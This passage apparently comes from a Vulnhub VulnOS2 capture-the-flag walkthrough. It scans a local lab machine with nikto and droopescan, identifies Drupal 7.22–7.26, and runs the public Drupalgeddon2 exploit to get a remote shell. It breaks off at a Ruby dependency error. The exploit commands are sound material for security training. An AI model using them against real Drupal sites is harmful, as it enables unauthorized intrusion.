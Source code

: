 ![4](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/8c500c18-b2eb-463c-8beb-5c78ec6d0c88)


Let’s run some scans in the background while we explore the website.

    nikto -h http://192.168.0.128/jabc

Also, let’s explore the Page Source Code

![5](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/549a573f-414e-415b-92cd-4140003ccaf5)


We can see that the page also runs on Drupal 7, so let’s use droopescan. 
Let’s clone the droopescan GitHub project  by using

	git clone https://github.com/SamJoan/droopescan.git

Cd into the folder

	cd droopescan

![6](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/05fef50a-fecc-4c59-a478-f835a633cf4a)

We have to scan a Drupal site so we’ll use the syntax

    ./droopescan scan drupal -u 192.168.0.128/jabc

![7](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/1764fc95-4b05-4116-bfd9-a56628a82456)

We’re running version 7.22 – 7.26 of Drupal, let’s check the internet to see if we have any known exploits for these.

## Step 3 - Gaining Access
We have two ways to gain a remote shell

 1. Drupalgeddon2
 2. Metasploit

**Drupalgeddon2**
It looks like it can remote shell, let’s clone this too

    git clone https://github.com/dreadlocked/Drupalgeddon2.git

Let’s enter the folder 

    cd Drupalgeddon2

Let’s use the ruby script according to the readme.md on GitHub

    ./drupalgeddon2.rb http://192.168.0.128/jabc

![8](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/d01123ed-f6bf-4894-b9fe-b058d05515a4)


We got a remote shell!

> You might get an error, something like

> internal:/usr/lib/ruby/vendor_ruby/rubygems/core_ext/kernel_require.rb>:86:in
> `require': cannot load such file -- highline/import (LoadError) 
